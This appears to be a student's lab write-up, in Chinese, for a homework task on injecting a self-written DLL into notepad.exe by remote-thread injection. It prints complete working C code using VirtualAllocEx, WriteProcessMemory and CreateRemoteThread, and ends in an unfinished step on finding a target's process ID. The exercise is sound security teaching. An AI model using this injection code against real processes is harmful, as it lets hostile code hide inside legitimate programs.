



# 作业一

- 查文档，研究远程线程方式注入 dll 的示例代码的实现原理。

- 运行示例代码，向一个目标程序（比如 notepad.exe）注入一个我们自行编写的 dll，加载运行。

- 整合进程遍历的程序，使得攻击程序可以自己遍历进程得到目标程序的 pid。

# 作业一的实验步骤

查看 git 代码。

```c
#include <stdio.h>
#include <Windows.h>
#include <tlhelp32.h>
#include "fheaders.h"

DWORD demoCreateRemoteThreadW(PCWSTR pszLibFile, DWORD dwProcessId)
{
	// Calculate the number of bytes needed for the DLL's pathname
	DWORD dwSize = (lstrlenW(pszLibFile) + 1) * sizeof(wchar_t);

	// Get process handle passing in the process ID
	HANDLE hProcess = OpenProcess( /*Opens an existing local process object.*/
		PROCESS_QUERY_INFORMATION |
		PROCESS_CREATE_THREAD |
		PROCESS_VM_OPERATION |
		PROCESS_VM_WRITE,
		FALSE, dwProcessId);
	if (hProcess == NULL)
	{
		wprintf(TEXT("[-] Error: Could not open process for PID (%d).\n"), dwProcessId);
		return(1);
	}

	// Allocate space in the remote process for the pathname
	LPVOID pszLibFileRemote = (PWSTR)VirtualAllocEx(hProcess, NULL, dwSize, MEM_COMMIT, PAGE_READWRITE); /*Reserves, commits, or changes the state of a region of memory within the virtual address space of a specified process.*/
	if (pszLibFileRemote == NULL)
	{
		wprintf(TEXT("[-] Error: Could not allocate memory inside PID (%d).\n"), dwProcessId);
		return(1);
	}

	// Copy the DLL's pathname to the remote process address space
	DWORD n = WriteProcessMemory(hProcess, pszLibFileRemote, (PVOID)pszLibFile, dwSize, NULL);
	if (n == 0)
	{
		wprintf(TEXT("[-] Error: Could not write any bytes into the PID [%d] address space.\n"), dwProcessId);
		return(1);
	}

	// Get the real address of LoadLibraryW in Kernel32.dll
	PTHREAD_START_ROUTINE pfnThreadRtn = (PTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandle(TEXT("Kernel32")), "LoadLibraryW");
	if (pfnThreadRtn == NULL)
	{
		wprintf(TEXT("[-] Error: Could not find LoadLibraryA function inside kernel32.dll library.\n"));
		return(1);
	}

	// Create a remote thread that calls LoadLibraryW(DLLPathname)
	HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, pfnThreadRtn, pszLibFileRemote, 0, NULL); /*Creates a thread that runs in the virtual address space of another process.*/
	if (hThread == NULL)
	{
		wprintf(TEXT("[-] Error: Could not create the Remote Thread.\n"));
		return(1);
	}
	else
		wprintf(TEXT("[+] Success: DLL injected via CreateRemoteThread().\n"));

	// Wait for the remote thread to terminate
	WaitForSingleObject(hThread, INFINITE); /*Waits until the specified object is in the signaled state or the time-out interval elapses.*/

	// Free the remote memory that contained the DLL's pathname and close Handles
	if (pszLibFileRemote != NULL)
		VirtualFreeEx(hProcess, pszLibFileRemote, 0, MEM_RELEASE);

	if (hThread != NULL)
		CloseHandle(hThread);

	if (hProcess != NULL)
		CloseHandle(hProcess);

	return(0);
}
```

运行示例代码。

- 添加头文件后发现依然无法运行，解决如下：

  

- 编译链接后，程序可以运行且无报错信息，但是运行结果显示不出来。

  

- 经修正 baselib.dll 的路径，并改动源代码的输出格式，可以成功显示结果了：（记得运行程序前打开记事本，弹窗是在记事本中出现的）

  

如何得到目标程序的 pid ？

- 查看遍历进程的示例代码：

  https://docs.microsoft.com/zh-cn/windows/win32/toolhelp/taking-a-snapshot-and-viewing-processes

- 